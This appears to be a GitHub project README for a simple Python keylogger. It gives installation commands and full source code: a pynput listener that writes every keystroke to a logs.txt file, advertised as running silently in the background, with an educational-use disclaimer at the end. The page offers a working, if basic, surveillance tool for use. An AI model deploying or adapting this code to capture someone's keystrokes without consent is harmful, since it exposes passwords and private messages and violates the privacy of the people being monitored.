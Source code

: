 🔑 Keylogger in Python 🖥️
📌 About
This is a basic keylogger built using Python and pynput library. It records all keystrokes and logs them into a file named logs.txt. The keylogger runs in the background and captures both normal and special keys.

🚀 Features
✅ Logs all keystrokes (letters, numbers, and symbols)
✅ Records special keys (Enter, Space, Backspace, etc.)
✅ Stores keystrokes in a log file (logs.txt)
✅ Runs silently in the background
✅ Safe exit by pressing ESC

🛠️ Installation
1️⃣ Clone the Repository:

bash
Copy
Edit
git clone https://github.com/yourusername/keylogger-python.git
cd keylogger-python
2️⃣ Install Dependencies:

bash
Copy
Edit
pip install pynput
3️⃣ Run the Keylogger:

bash
Copy
Edit
python keylogger.py
🛑 How to Stop the Keylogger?
🚀 Press ESC key to safely stop the keylogger.
🛑 Alternatively, use Ctrl + C in the terminal to force stop it.
🔴 If running in the background, end "Python" process via Task Manager.

📜 Code Implementation
python
Copy
Edit
from pynput import keyboard

def on_press(key):
    if key == keyboard.Key.esc:
        print("Keylogger stopped!")
        return False  # Stop the listener
    
    with open("logs.txt", "a") as file:
        file.write(f"{key}\n")

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
⚠️ Disclaimer
🛑 This project is for educational purposes only.
🔴 Unauthorized use of keyloggers is illegal. Use it responsibly.

